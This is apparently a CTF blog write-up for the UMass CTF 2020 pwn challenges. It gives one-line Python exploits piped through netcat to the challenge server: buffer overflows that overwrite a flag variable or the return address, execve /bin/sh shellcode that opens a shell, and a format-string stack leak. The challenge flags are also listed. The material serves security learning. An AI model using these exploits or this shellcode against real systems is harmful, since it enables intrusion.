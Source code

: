 ```yaml
---
title: "UMass CTF 2020: PWN Engineering Writeups"
date: 2020-10-12
category: ctf
tags:
 - pwn
 - umass20
# toc: true
permalink: /ctf/umass/pwn
sidebar:
    nav: "ctfs"
...
```


# Baby Overflow I

## Prompt

This is my first program. Be nice :)

`nc 34.75.105.136 1024`

## TLDR;

Looking at the binary in GDB we see that the buffer is 16 characters and right above it is the variable for `should_get_flag`.
Therefore, we should write in 16 junk characters and then write in 0x1.

`python -c "import struct; out = 'A'*0x10; out += struct.pack('I', 0x1); print(out)" | nc 34.75.105.136 1024`

## Flag

`UMASS{N3v3r_g0nn4_m3s$_th1s_up}`

# Baby Overflow II

## Prompt

When my friend Ptasie Mleczko typed in his name, it gave him the flag. It was weird, but I think I fixed it.

nc 34.75.105.136 1025

## TLDR;

The binary is pretty much the same, however, this time it expects a specific value instead of a boolean True value.

`python -c "import struct;out = 'A'*0x10;out += struct.pack('I', 0xB16B00B5);print(out)" | nc 34.75.105.136 1025`

## Flag

`UMASS{Dyslexic_D0g_1nth3$ky}`

# Baby Overflow III

## Prompt

Okay, now it's really secure.

nc 34.75.105.136 1027

## TLDR;

For this challenge one has to gain control of the RIP to change execution flow.
This can be done by overloading the buffer, the saved RBP value on the stack and then by inserting the address one would like to execute at.

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x401132); out += struct.pack('Q', 0x401060); print(out)"; echo) | nc 34.75.105.136 1027`

## Flag

`UMASS{first_step_to_rop}`

# Baby Overflow IV

## Prompt

I don't even know why I had that function in the first place...

nc 34.75.105.136 1028

## TLDR;

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x0000000000404060); print('\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05');print(out)"; cat -) | nc 34.75.105.136 1028`

Once in the shell type
`cat flag`

## Flag

`UMASS{now_you_can_really_call_yourself_a_hacker}`

# format_what

## Prompt

We just learned format strings in 230, can you check if I'm doing it right?

nc 34.75.105.136 1030

## TLDR;


`python -c "print('%lu '*20)" | nc 34.75.105.136 1030 | (read -r i; read -r s; for i
 in $s; do python3 -c "import struct; print(struct.pack('Q', $i))"; done)`

## Flag

`UMASS{n0_f0rm4t_n33d3d!?}`
